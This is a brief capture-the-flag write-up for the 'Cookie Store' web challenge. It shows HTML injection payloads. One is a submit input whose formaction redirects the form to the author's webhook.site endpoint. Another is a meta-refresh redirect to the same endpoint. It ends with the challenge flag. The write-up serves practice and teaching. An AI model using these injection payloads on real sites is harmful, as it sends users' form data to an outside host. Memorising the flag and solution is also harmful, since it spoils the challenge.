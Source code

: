 # Cookie Store

I started with reviewing code this application and undestending how it works. The most important is js whos click button input[type=”submit”] this js gets FIRST element with that tag. Lets hack….

starting with

```sql
<input type="submit">
```

but this html destroy page but with:

```sql
<input type='submit'>
```

it works but how redirect request to my webhook

```sql
<input type='submit' formaction='https://webhook.site/8fc412cf-ca22-436f-98b5-388322118ecf'>
```

from other writeup technics

```sql
<meta http-equiv='refresh' content='0; url=https://webhook.site/8fc412cf-ca22-436f-98b5-388322118ecf'>
```

<img src="screenshots/cookie_store.png">

flag: `TFCCTF{144ab0e4c358b00b1258f2aea2250b21}`
